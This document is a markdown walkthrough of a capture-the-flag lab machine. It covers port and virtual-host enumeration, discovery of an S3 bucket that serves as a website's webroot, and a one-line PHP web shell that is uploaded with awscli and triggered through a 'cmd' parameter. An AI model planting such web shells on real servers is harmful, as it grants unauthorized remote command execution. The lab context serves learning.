









# 1. Enumeration

- To start with, we will check for open ports using `nmap`:
```
nmap -sV 10.129.227.248
```



# 2. Website Enumeration



- Scrolling down the webpage, we come accross the "Contact" section, which has email information. The email given here has the domain 'thetoppers.htb'
- Let's add an entry for `thetoppers.htb` in `/etc/hosts` file with the corresponding IP address to be able to 
access this domain in the browser.

# 3. Subdomain Enumeration

- We will be using `gobuster` for subdomain enumeration:
```
gobuster vhost -w /opt/useful/SecLists/Discovery/DNS/subdomains-top1million-5000.txt -u http://thetoppers.htb
```



- Let's also add an entry for this subdomain in the `/etc/hosts` file.
- After that, we are presented with this page:


# 4. S3 bucket

- `S3` is a cloud-based object storage service. It allows us to store things in containers called buckets. AWS
  S3 buckets have various use-cases including Backup and Storage, Media Hosting, Software Delivery, Static
  Website etc. The files stored in the Amazon S3 bucket are called S3 objects.
- We can interact with this S3 bucket with the aid of the `awscli` utility:


- We can list all S3 buckets hosted by the server using the `ls` command:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls
```



- List objects and common prefixes under the specified bucket:
```
aws --endpoint=http://s3.thetoppers.htb s3 ls s3://thetoppers.htb
```



- Seems like this is the webroot of the website running on port 80 . So the Apache server is using this S3 bucket as
  storage.

- `awscli` has got another feature that allow us to copy files to a remote bucket. Thus, we can upload a PHP shell to 
the `S3` bucket and since it is uploaded to the webroot directory, we can visit it, which will, in turn, execute this file
and we will achieve remote code execution.

- `shell.php`:
```
<?php system($_GET["cmd"]); ?>
```

- Now, we can upload this to `thetoppers.htb` S3 bucket:
```
aws --endpoint=http://s3.thetoppers.htb s3 cp shell.php s3://thetoppers.htb
```


- Let's try executing OS command using the `cmd` parameter:
```
http://thetoppers.htb/shell.php?cmd=id
```



- The flag can be found at `/var/www/flag.txt`